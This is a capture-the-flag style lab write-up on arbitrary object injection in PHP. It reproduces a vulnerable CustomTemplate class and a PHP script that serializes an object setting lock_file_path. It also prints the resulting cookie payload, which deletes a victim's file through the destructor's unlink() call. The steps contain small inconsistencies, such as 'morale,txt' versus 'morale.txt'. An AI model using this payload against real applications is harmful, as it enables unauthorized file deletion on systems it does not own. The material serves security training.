






# Arbitrary object injection in PHP

## Lab Description :


## Solution :
Login as wiener & observe that the cookie is a PHP serialized cookie. 



In the burp's sitemap, we see a CustomTemplate.php file. But upon performing a GET request to that endpoint returns nothing. 





Using ~ tilde symbol at the end of file name responds with the source code.



```php
<?php
class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}
?>
```

From the above php code, we see that the lock_file_path variable is passed to unlink() & executed when desctructor is called.

So our goal is to create a serialized object cookie where we set the lock_file_path value to rm /home/carlos/morale.txt.
```php
<?php
class CustomTemplate {
   public $lock_file_path='/home/carlos/morale,txt';
    }

$obj = new CustomTemplate();
$test = serialize($obj);
echo $test;
?>
```

The above code when serialized gives the following output.

Encode it using base64 & then url encode it before sending the malicious payload via cookie to the server.

``O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}``

Replace the cookie with the obtained base64 + url-encoded output & refresh the page. Now carlos's file is deleted & thus the lab is solved.



#### Visit The Next Page For The Next Level :)
